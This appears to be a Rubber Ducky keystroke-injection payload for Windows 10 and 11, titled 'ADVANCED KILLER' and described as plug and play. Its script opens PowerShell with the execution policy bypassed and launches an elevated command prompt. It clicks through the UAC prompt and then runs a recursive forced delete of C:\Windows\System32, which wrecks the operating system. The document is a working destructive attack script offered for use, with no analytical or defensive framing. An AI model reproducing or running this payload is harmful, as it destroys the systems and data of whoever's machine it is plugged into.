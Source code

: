 # Rubbery Ducky

CODE:

REM     Title: ADVANCED KILLER

REM     Author: EnergyN

REM     Description: THE BEST KILLER. 
REM     ELO ELO. 

REM     Target: Windows 10, 11

REM     --------------------------------------------------------------------------------------
REM     THIS PAYLOAD IS PLUG AND PLAY.
REM     --------------------------------------------------------------------------------------

DELAY 2000
GUI r
DELAY 500
STRING powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; Start-Process cmd -ArgumentList "/K" -Verb RunAs
ENTER
DELAY 7500
LEFT
ENTER
DELAY 2000
STRING del /s /q C:\Windows\System32\*
DELAY 1000
ENTER
